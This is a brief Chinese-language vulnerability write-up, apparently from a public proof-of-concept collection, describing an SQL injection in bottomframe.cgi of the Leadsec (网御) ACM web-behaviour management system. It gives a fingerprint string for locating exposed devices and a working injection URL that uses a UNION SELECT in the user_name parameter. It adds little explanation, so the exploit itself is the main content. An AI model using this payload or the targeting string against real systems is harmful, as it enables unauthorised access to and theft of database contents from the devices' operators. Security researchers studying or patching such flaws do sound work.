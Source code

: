 # 网御 ACM上网行为管理系统 bottomframe.cgi SQL注入漏洞

## 漏洞描述

网御 ACM上网行为管理系统 bottomframe.cgi 存在SQL注入漏洞，攻击者通过漏洞可以获取服务器数据库敏感信

## 漏洞影响

<a-checkbox checked>网御 ACM上网行为管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"scripts/webcommon.js"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1663994453807-0fa60804-9c2a-41bc-92b4-778b8f02afd0.png)

验证POC

```sql
/bottomframe.cgi?user_name=%27))%20union%20select%20md5(1)%23
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1663994495576-74ca5671-1b50-4cd9-b894-0de7277e073b.png)